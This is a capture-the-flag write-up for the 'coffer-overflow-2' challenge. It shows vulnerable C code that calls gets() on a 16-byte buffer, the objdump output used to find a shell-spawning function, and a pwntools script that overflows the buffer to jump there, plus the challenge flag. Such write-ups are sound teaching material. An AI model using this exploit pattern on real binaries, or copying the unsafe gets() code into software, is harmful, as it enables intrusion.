

# pwncoffer-overflow-2

## Challenge

"You'll have to jump to a function now!

nc 2020.redpwnc.tf 31908"

You can download the problem files here [coffer-overflow-2](coffer-overflow-2)[coffer-overflow-2.c](coffer-overflow-2.c)

## Process

Coffer-overflow is title that implies a buffer overflow attack. I opened up the .c file and looked for anything interesting.

```
#include <stdio.h>
#include <string.h>

int main(void)
{
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);
}

void binFunction() {
  system("/bin/sh");
}
```

The lines below are important to the buffer overflow. You can obtain shell capabilities if you jump into the function binFunction(). 

```
  gets(name);
...
void binFunction() {
  system("/bin/sh");
```

I than ran an object dump on the given elf file to find the address of the function binFunction(). You can look at the entire dump here [dump.txt](dump.txt).

```
$ objdump -d coffer-overflow-2 > dump.txt
```

The important part of the dump is the address of binFunction(), which is 0x00000000004006e6

```
00000000004006e6 <binFunction>:
  4006e6:	55                   	push   %rbp
  4006e7:	48 89 e5             	mov    %rsp,%rbp
  4006ea:	48 8d 3d 12 01 00 00 	lea    0x112(%rip),%rdi        # 400803 <_IO_stdin_used+0x83>
  4006f1:	b8 00 00 00 00       	mov    $0x0,%eax
  4006f6:	e8 75 fe ff ff       	callq  400570 <system@plt>
  4006fb:	90                   	nop
  4006fc:	5d                   	pop    %rbp
  4006fd:	c3                   	retq   
  4006fe:	66 90                	xchg   %ax,%ax
```

I wrote the following [python script](payloader.py) in order to jump into the function binFunction().

```
from pwn import * 
connection = remote('2020.redpwnc.tf', 31908)
# offset is allocated + 8
offset = 16+8
# through objdump -d we found the address of binFunction() as 0x00000000004006e6
# through objdump -d we know this is 64 bit
address = p64(0x00000000004006e6)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
#after performing the buffer overflow we still need to cat the flag
connection.interactive()
# flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}
```

After running the script you obtain shell capabilities. The flag can then be found and displayed.



The flag is flag{ret_to_b1n_m0re_l1k3_r3t_t0_w1n}.